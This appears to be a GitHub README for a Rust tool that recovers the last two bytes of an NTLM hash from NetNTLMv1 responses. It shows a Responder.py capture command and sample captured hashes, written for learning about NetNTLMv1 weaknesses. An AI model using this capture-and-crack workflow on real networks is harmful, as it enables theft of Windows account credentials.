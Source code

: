 # CT3 To NTLM

This tool is based on the work of previous people :
- Evil Mog : https://www.youtube.com/watch?v=qwTTaUkKH5w
- Moxie Marlinspike : https://moxie.org/

This is a simple re-implementation of the ct3-to-ntlm.bin hashcat-utils binary in rust.

There is also a first proof of concept in python if you want to use it, but I dont give any support on it, no requirements.txt whatsoever.

## Install/build
Download latest releases or build it with rust :
```shell
git clone https://github.com/almandin/ct3-to-ntlm
cd ct3-to-ntlm
cargo build --release
mv target/release/ct3-to-ntlm $anywhere-in-you-PATH
```
Requires rust 1.59 (thanks to the strip feature in the Cargo.toml file, but you can remove it if necessary).

## What it does
Use Responder.py and get some NetNTLMv1 hashes :

```shell
#> python Responder.py -I eth0 --lm -fwrp
...
[SMB] NTLMv1 Client   : 184.64.60.62
[SMB] NTLMv1 Username : DUSTIN-5AA37877\hashcat
[SMB] NTLMv1 Hash     : hashcat::DUSTIN-5AA37877:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788
...

[SMB] NTLMv1-SSP Client   : 184.64.60.62
[SMB] NTLMv1-SSP Username : DUSTIN-5AA37877\hashcat
[SMB] NTLMv1-SSP Hash     : hashcat::DUSTIN-5AA37877:85D5BC2CE95161CD00000000000000000000000000000000:892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0:1122334455667788
...
```

Copy the NTLMv1 or the NTLMv1-SSP hash as the argument of this tool :
```shell
$> ./ct3-to-ntlm 'hashcat::DUSTIN-5AA37877:85D5BC2CE95161CD00000000000000000000000000000000:892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0:1122334455667788'
```
You get the last two bytes of the NTLM hash of the account used for the NetNTLM authentication : `586c` with the example.

# Why that
Wanted to learn how bad is NetNTLMv1 and how to attack it.
Because I also plan to look at rainbow tables generation for netntlmv1 without SSP.
